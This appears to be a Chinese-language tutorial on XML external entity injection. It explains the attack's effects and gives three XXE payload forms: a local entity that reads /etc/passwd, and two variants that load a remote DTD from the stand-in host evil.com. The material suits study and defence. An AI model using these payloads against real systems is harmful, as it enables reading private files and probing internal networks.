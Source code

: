 ## XML外部实体注入

当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

**注意：**执行系统命令(安装expect扩展的PHP环境里才有)

## 恶意引入外部实体的三种方式

#### 一、本地引入

XML内容：

```xml
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE x[
	<!ENTITY wintrysec SYSTEM "file:///etc/passwd">
]><!--文档类型定义-->
<test>&wintrysec;</test><!--文档元素-->
```

一个实体由三部分构成: 一个和号 (&), 一个实体名称, 以及一个分号 (;) 

#### 二、远程引入

XML内容：

```xml
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE x[
	<!ENTITY %d SYSTEM "http://evil.com/evil.dtd">
	%d;
]><!--文档类型定义-->
<test>&wintrysec;</test><!--文档元素-->
```

DTD文件(evil.dtd)内容：

```xml
<!ENTITY wintrysec SYSTEM “file:///etc/passwd">
```

#### 三、远程引入2

```xml
<?xml version="1.0" ?>
<!DOCTYPE x SYSTEM "http://evil.com/evil.dtd">
<test>&wintrysec;</test>
```

另外，不同程序支持的协议不一样

 ![](/post-pic/xxe/xml1.png) 

 上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有

 ![](/post-pic/xxe/xml2.png) 
